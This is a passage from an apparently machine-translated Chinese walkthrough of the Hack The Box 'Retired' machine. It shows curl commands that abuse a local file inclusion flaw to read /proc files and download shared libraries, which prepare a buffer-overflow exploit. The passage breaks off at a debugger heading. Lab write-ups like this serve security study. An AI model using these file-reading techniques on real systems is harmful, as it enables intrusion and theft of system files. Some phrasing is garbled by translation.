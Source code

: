 首先我们得抓几个。所以二进制文件使用的文件。我们可以通过查看包装盒上的地图文件来了解这些信息:

```
┌──(root㉿kali)-[~/htb/retired]
└─# curl -s "http://10.10.11.154/index.php?page=/proc/$(curl -s "http://10.10.11.154/index.php?page=/proc/sched_debug" | grep activate_licens | awk '{print $3}')/maps"
```

上面使用了 [sched_debug](https://doc.opensuse.org/documentation/leap/archive/15.0/tuning/html/book.sle.tuning/cha.tuning.taskscheduler.html#sec.tuning.taskscheduler.cfs.debug) 文件来查找在机器上运行的 activate_license 二进制文件的当前 pid，然后获取它的映射文件。在这个长长的列表中，有两个文件是我们感兴趣的:

```
7f13f36a2000-7f13f36c7000 r--p 00000000 08:01 3634                       /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f13f3867000-7f13f3877000 r--p 00000000 08:01 5321                       /usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6
```

我们有两个共享对象的路径，让我们下载它们:

```
┌──(root㉿kali)-[~/htb/retired]
└─# curl -s "http://10.10.11.154/index.php?page=/usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6" -o libsqlite3.so.0.8.6

┌──(root㉿kali)-[~/htb/retired]
└─# curl -s "http://10.10.11.154/index.php?page=/usr/lib/x86_64-linux-gnu/libc-2.31.so" -o libc-2.31.so
```

# 开拓发展

就像我们之前做的一样，第一步是找到导致二进制崩溃所需的偏移量。我们通过向它发送大量的字符，然后计算它崩溃的次数来实现这个目的。这花了我一点时间，但关键是要让二进制文件崩溃，我们必须以它期望的方式向它发送数据。为了简单起见，我将下载的 activate_license.php 文件用于 Kali，然后启动内置的 php 服务器来托管它:

```
┌──(root㉿kali)-[~/htb/retired]
└─# php -S localhost:8080
[Wed Jun 22 22:33:50 2022] PHP 8.1.2 Development Server (http://localhost:8080) started
```

运行之后，我可以把我的有效载荷发送给它，php 代码会把它写到二进制文件中。php 文件的这一部分是我们感兴趣的部分:

```
if (!socket_connect($socket, '127.0.0.1', 1337)) {
        echo "error socket_connect()" . socket_strerror(socket_last_error()) . "\n";
    }
    socket_write($socket, pack("N", $license_size));
    socket_write($socket, $license);
```

如您所见，它在本地写入端口 1337。因此，我们接下来要运行 activate_license 二进制文件，以便 php 脚本可以写入其中。为此，我们需要 gdb，所以当二进制崩溃时，我们可以查找寄存器来查看偏移量。

# GDB 和佩达
